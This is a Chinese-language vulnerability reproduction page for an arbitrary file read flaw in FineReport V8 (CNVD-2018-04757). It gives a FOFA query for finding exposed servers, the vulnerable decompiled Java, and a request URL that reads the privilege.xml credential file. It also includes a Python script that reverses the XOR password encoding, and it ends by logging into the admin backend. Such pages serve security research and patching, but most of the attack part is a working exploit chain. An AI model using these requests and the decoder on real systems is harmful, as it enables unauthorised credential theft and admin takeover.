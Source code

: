 # 帆软报表 V8 get_geo_json 任意文件读取漏洞 CNVD-2018-04757

## 漏洞描述

FineReport报表软件是一款纯Java编写的，集数据展示(报表)和数据录入(表单)功能于一身的企业级web报表工具。

FineReport v8.0版本存在任意文件读取漏洞，攻击者可利用漏洞读取网站任意文件。

## 漏洞影响

<a-checkbox checked>FineReport < v8.0</a-checkbox></br>

## FOFA

<a-checkbox checked>body="isSupportForgetPwd"</a-checkbox></br>

## 漏洞复现

出现漏洞的文件为 fr-applet-8.0.jar

```java
package com.fr.chart.web;

import com.fr.base.FRContext;
import com.fr.general.IOUtils;
import com.fr.stable.CodeUtils;
import com.fr.web.core.ActionNoSessionCMD;
import com.fr.web.utils.WebUtils;
import java.io.InputStream;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class ChartGetFileContentAction extends ActionNoSessionCMD {
    public ChartGetFileContentAction() {
    }

    public void actionCMD(HttpServletRequest var1, HttpServletResponse var2, String var3) throws Exception {
        String var4 = CodeUtils.cjkDecode(WebUtils.getHTTPRequestParameter(var1, "resourcepath"));
        if (!WebUtils.invalidResourcePath(var4)) {
            InputStream var5 = FRContext.getCurrentEnv().readResource(var4);
            String var6 = IOUtils.inputStream2String(var5);
            var6 = var6.replace('\ufeff', ' ');
            WebUtils.printAsString(var2, var6);
        }
    }

    public String getCMD() {
        return "get_geo_json";
    }
}
```



使用request将文件名传入 调用cjkDecode函数解密文件名

使用invalidResourcePath函数校验文件是否存在

最后使用readResource函数读取文件传输到浏览器上 默认目录为resources

其中的privilege.xml里面存储了后台的用户名密码

```xml
<?xml version="1.0" encoding="UTF-8"?>
<PrivilegeManager xmlVersion="20170715" releaseVersion="8.0.0" fsSystemManagerPassSet="true" birthday="0" male="false">
<rootManagerName>
<![CDATA[admin]]></rootManagerName>
<rootManagerPassword>
<![CDATA[___00520017004e002b004100b7004200250023007f003d003d005400e4001c0057]]></rootManagerPassword>
<AP class="com.fr.privilege.providers.NoAuthenticationProvider"/>
<ForwardUrl>
<![CDATA[${servletURL}?op=fr_platform]]></ForwardUrl>
<PVFILTER class="com.fr.fs.privilege.auth.BasePrivilegeFilter"/>
</PrivilegeManager>
```

<a-checkbox checked>加密函数</a-checkbox></br>

```java
public static String passwordEncode(String var0) {
        StringBuilder var1 = new StringBuilder();
        var1.append("___");
        if (var0 == null) {
            return var1.toString();
        } else {
            int var2 = 0;

            for(int var3 = 0; var3 < var0.length(); ++var3) {
                if (var2 == PASSWORD_MASK_ARRAY.length) {
                    var2 = 0;
                }

                int var4 = var0.charAt(var3) ^ PASSWORD_MASK_ARRAY[var2];
                String var5 = Integer.toHexString(var4);
                int var6 = var5.length();

                for(int var7 = 0; var7 < 4 - var6; ++var7) {
                    var5 = "0" + var5;
                }

                var1.append(var5);
                ++var2;
            }

            return var1.toString();
        }
    }
```

<a-checkbox checked>解密函数</a-checkbox></br>

```java
public static String passwordDecode(String var0) {
        if (var0 != null && var0.startsWith("___")) {
            var0 = var0.substring(3);
            StringBuilder var1 = new StringBuilder();
            int var2 = 0;

            for(int var3 = 0; var3 <= var0.length() - 4; var3 += 4) {
                if (var2 == PASSWORD_MASK_ARRAY.length) {
                    var2 = 0;
                }

                String var4 = var0.substring(var3, var3 + 4);
                int var5 = Integer.parseInt(var4, 16) ^ PASSWORD_MASK_ARRAY[var2];
                var1.append((char)var5);
                ++var2;
            }

            var0 = var1.toString();
        }

        return var0;
    }
```



使用python写出的解密代码为

```python
cipher = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```



这里使用上面讲述的原理进行复现,访问目标



![img](../../../.vuepress/public/img/fan-1.png)

访问POC为,读取密码文件 privilege.xml

```plain
/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

![img](../../../.vuepress/public/img/fan-2.png)



使用解密脚本解密文件



![img](../../../.vuepress/public/img/fan-3.png)



得到密码，即可登陆后台系统，账户为 admin



![img](../../../.vuepress/public/img/fan-4.png)